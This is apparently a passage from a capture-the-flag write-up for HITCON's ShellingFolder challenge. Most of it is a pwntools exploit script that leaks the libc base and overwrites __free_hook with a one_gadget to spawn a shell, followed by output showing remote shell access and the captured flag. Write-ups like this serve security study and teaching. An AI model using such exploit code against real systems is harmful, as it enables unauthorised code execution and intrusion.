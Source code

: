 ```python exp_shell.py
    # .text:0000000000045277                 mov     cs:dword_3C54A4, 0
    # .text:0000000000045281                 mov     rdx, [rax]
    # .text:0000000000045284                 call    execve
    ##########################

    r.recvuntil("----------------------\n")
    libc.address += u64(r.recv(6).ljust(8, "\x00")) - 0x3c3b78
    one_gadget = libc.address + 0x4525a
    malloc_hook = libc.symbols['__malloc_hook']
    free_hook = libc.symbols['__free_hook']
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))
    log.success("malloc_hook: "+hex(malloc_hook))
    log.success("free_hook: "+hex(free_hook))

    # overwrite free_hook to one_gadet
    make_dir("DDDD")
    change_dir("DDDD\n")
    create_file("i"*24+p64(free_hook)[:7:], (one_gadget & 0xffffffff))
    create_file("I"*24+p64(free_hook+4)[:7:], ((one_gadget & 0xffffffff00000000)>>32))
    cal()
	
    # get shell
    remove("i"*24+p64(free_hook)[:7:])
    
    r.interactive()
```

Result:
<pre>
[x] Opening connection to 52.69.237.212 on port 4869
[x] Opening connection to 52.69.237.212 on port 4869: Trying 52.69.237.212
[+] Opening connection to 52.69.237.212 on port 4869: Done
[+] libc_base: 0x7ff15c7cc000
[+] one_gadget: 0x7ff15c81125a
[+] malloc_hook: 0x7ff15cb8fb10
[+] free_hook: 0x7ff15cb917a8
[*] Switching to interactive mode
 size 32753
The size of the folder is 0
**************************************
            ShellingFolder            
**************************************
 1.List the current folder            
 2.Change the current folder          
 3.Make a folder                      
 4.Create a file in current folder    
 5.Remove a folder or a file          
 6.Caculate the size of folder        
 7.Exit                               
**************************************
Your choice:Choose a Folder or file :

// id
uid=1000(shellingfolder) gid=1000(shellingfolder) groups=1000(shellingfolder)

// cat /home/shellingfolder/flag
hitcon{Sh3llingF0ld3r_Sh3rr1nf0rd_Pl4y_w17h_4_S1mpl3_D4t4_Ori3nt3d_Pr0gr4mm1n7}
</pre>

flag: `hitcon{Sh3llingF0ld3r_Sh3rr1nf0rd_Pl4y_w17h_4_S1mpl3_D4t4_Ori3nt3d_Pr0gr4mm1n7}`